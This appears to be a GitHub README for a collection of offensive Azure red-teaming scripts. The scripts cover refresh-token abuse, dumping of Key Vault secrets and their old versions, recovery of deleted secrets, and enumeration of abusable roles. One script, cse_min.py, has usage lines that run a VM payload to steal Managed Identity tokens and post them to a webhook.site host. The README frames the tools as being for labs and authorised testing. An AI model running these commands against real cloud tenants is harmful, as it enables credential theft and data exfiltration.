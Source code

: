 # 🔓 azure-insecurity-tools

**A growing collection of offensive Azure tools and scripts** designed to support cloud red teaming, lab work, and deep exploration of Microsoft cloud internals.

---

## 📦 What's Inside

This repo will evolve as I learn more about attacking Azure. The focus is hands-on, practical tooling for real-world and lab scenarios.

### ✅ Initial Tool: `token_multiplexer.py`

Use a single `refresh_token` to mint multiple `access_token`s across different Azure resource scopes (Graph, Key Vault, ARM, etc).

#### Features
- Exchanges refresh tokens for any `.default` scoped resource
- Decodes JWT and extracts `aud`, `scp`, and `exp` claims
- Built as a CLI for flexible reuse
- Useful in phishing/OAuth abuse scenarios like AzRTE labs

#### Example Usage

```bash
python token_multiplexer.py \
  --refresh-token "<paste_here>" \
  --client-id "your-app-client-id" \
  --client-secret "your-app-client-secret" \
  --scope "https://vault.azure.net/.default"
```

### 🔑 kv-dump-old-versions.py — Enumerate and Dump Azure Key Vault Secret Versions

This script enumerates secrets in Azure Key Vaults and retrieves all available versions, including old values that might remain after rotation.

Features
-	Works on a single vault or all vaults in a subscription.
-	Dumps all secret versions with flags for which one is latest.
-	Supports table view (human-friendly) and JSON output (machine-friendly).
-	Flags old values that differ from the latest version.

#### Usage
```bash
# Enumerate all vaults in a subscription
python3 kv-dump-old-versions.py --subscription-id <subscription-id>

# Target a specific vault and output as JSON
python3 kv-dump-old-versions.py --vault kv-1-2e693029 --output json
```

### 🔢 kv-rsa-decrypt.py
Tries common RSA algs against a given Key Vault key ID. Uses az under the hood to leverage existing logon.

#### Usage
```bash
python3 kv-rsa-decrypt.py \
  --key-id "https://kv-2-xxxx.vault.azure.net/keys/key-2-xxxx/<version>" \
  --ciphertext-b64 "G067ensX6Zgz...=="  # full base64 blob
# or force a specific algo:
python3 kv-rsa-decrypt.py --key-id ... --ciphertext-b64 ... --algo RSA-OAEP
```

### 🗑️ kv-recover-deleted.py
List+recover deleted secrets for a vault

#### Usage
```bash
python3 kv-recover-deleted.py --vault kv-3-2e693029
python3 kv-recover-deleted.py --vault kv-3-2e693029 --recover-all
```

### 🔍 role-attack-surf.py
-	Lists your role assignments at a given scope (vault/RG/subscription)
-	Pulls each role definition
-	Flags interesting Actions/DataActions (stuff that tends to be abusable)
-	Prints a summary + optional JSON
-	Suggests quick exploits (e.g., set-policy when it sees accessPolicies/write)

#### Usage
```bash
# At a vault scope (like your lab)
python3 role-attack-surf.py \
  --scope "/subscriptions/<sub>/resourceGroups/key-vault-labs/providers/Microsoft.KeyVault/vaults/<vault>""

# Filter to your SP only (faster to read)
python3 role-attack-surf.py \
  --scope "/subscriptions/<sub>/resourceGroups/key-vault-labs/providers/Microsoft.KeyVault/vaults/<vault>" \
  --assignee <client_id>

# Dump full JSON too
python3 role-attack-surf.py --scope "/subscriptions/<sub>" --json
```

### ﹟psenc.py
Output Powershell-read -EncodedCommand string given a file, command, or stdin

#### Usage
```bash
# direct command
python3 psenc.py -c 'Write-Host "Hello from Mac!"' --print-example

# from a file
python3 psenc.py -f payload.ps1 > encoded.txt

# from stdin (handy in pipelines)
echo '$PSVersionTable.PSVersion' | python3 psenc.py --stdin
```

### 🕸️ cse_min.py
Trigger the Azure CustomScriptExtension on a Windows VM to run a PowerShell payload that collects Managed Identity tokens (ARM + Key Vault) and exfiltrates them to a specified webhook.

#### Usage
```bash
# basic usage (System-Assigned MI)
python3 cse_min.py -g <resource-group> -n <vm-name> -w https://webhook.site/<uuid>

# with User-Assigned Managed Identity client ID
python3 cse_min.py -g <resource-group> -n <vm-name> \
    -w https://webhook.site/<uuid> \
    --uami <user-assigned-mi-client-id>

# dry run (show PowerShell and encoded command without sending)
python3 cse_min.py -g <resource-group> -n <vm-name> -w <webhook-url> --show
```

This will:
	1.	Build the PowerShell payload to grab ARM + Key Vault access tokens via IMDS.
	2.	Encode it to UTF-16LE Base64 for -EncodedCommand execution.
	3.	Deploy it to the target VM via Azure CLI az vm extension set with CustomScriptExtension.
	4.	POST results to the given webhook.


### 📦 az-vars.sh

Extracts and exports key Azure resource identifiers and settings from JSON CLI output into shell variables for quick reuse in pentest or automation workflows.

#### Usage
```bash
# Pipe Azure CLI JSON output into script
az postgres flexible-server list -o json | bash az-vars.sh

# Or execute directly if marked executable
az postgres flexible-server list -o json | ./az-vars.sh
```

This will:
	1.	Parse JSON input from stdin (e.g., az <resource> list -o json).
	2.	Extract commonly used fields like id, name, resourceGroup, location, fqdn.
	3.	Export each as an environment variable (e.g., $AZ_NAME, $AZ_RG).
	4.	Print them in VAR=value form for quick copy/paste into other commands.


⚠️ Disclaimer

For educational and lab use only.

Do not use these tools without explicit permission. They are intended to support self-hosted labs, CTF environments, and ethical security testing.
